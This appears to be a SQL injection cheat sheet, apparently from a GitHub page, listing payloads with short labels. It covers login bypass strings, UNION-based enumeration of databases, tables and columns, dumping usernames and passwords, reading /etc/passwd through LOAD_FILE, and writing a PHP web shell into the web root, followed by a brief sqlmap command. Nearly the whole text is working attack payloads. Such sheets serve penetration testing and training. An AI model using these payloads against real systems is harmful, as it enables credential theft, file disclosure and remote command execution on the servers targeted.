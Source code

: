 >     ' union select username,password from table_name where 1=1;

     #### local database username

>      we can see the database user using user() function ; 
>      Query is   ' union select user();-- -   

   -   admin' or '1'='1 	     *Basic Auth Bypass*
   
   -   admin')-- - 	     *Basic Auth Bypass With comments*

   -   ' order by 1-- - 	*Detect number of columns using order by*

   -   cn' UNION select 1,2,3-- - 	*Detect number of columns using Union injection*

   -   cn' UNION select 1,@@version,3,4-- - 	*Basic Union injection*

   -   UNION select username, 2, 3, 4 from passwords-- - 	*Union injection for 4 columns*

   -  SELECT @@version 	    *Fingerprint MySQL with query output*

   -  SELECT SLEEP(5)  	         *Fingerprint MySQL with no output*

   -  cn' UNION select 1,database(),2,3-- - 	     *Current database name*

   -  cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- - 	*List all databases*

   -  cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- - 	*List all tables in a specific database*

   - cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- - 	*List all columns in a specific table*

   - cn' UNION select 1, username, password, 4 from dev.credentials-- - 	*Dump data from a table in another database*

   -  cn' UNION SELECT 1, user(), 3, 4-- - 	*Find current user*

   -  cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- - 	*Find if user has admin privileges*

   -  cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE user="root"-- - 	*Find if all user privileges*

   - cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- - 	*Find which directories can be accessed through MySQL*
 
   -  cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- - 	*Read local file*

   - select 'file written successfully!' into outfile '/var/www/html/proof.txt' 	*Write a string to a local file*

   - cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- - 	*Write a web shell into the base web directory*
   
   
   
- Using SQLMAP


If sqlmap dont give results back try different level values and risk values for more intense scan 	

 >   sqlmap -u <URL> -p <parameter>  rest flags   
  